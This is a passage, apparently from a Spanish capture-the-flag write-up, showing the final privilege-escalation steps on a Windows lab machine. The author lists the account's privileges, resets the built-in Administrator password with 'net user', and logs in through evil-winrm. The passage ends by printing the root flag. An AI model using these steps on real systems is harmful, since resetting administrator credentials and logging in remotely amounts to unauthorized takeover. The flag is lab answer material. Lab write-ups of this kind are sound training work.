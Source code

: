```
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

Vemos que tenemos todo, incluido que estamos en el grupo `Administradores` por lo que podremos cambiar la contraseña al propio `Administrador` de la siguiente forma:

```powershell
net user Administrator Password-
```

Info:

```
The command completed successfully.
```

Ahora si probamos a meternos con dicha cuenta y dicha contraseña:

```shell
evil-winrm -i <IP> -u Administrator -p 'Password-'
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
nessus\administrator
```

Veremos que ha funcionado, por lo que leeremos la flag del `admin`.

> root.txt

```
b5fc5a4ebfc20cc18220a814e1aee0aa
```
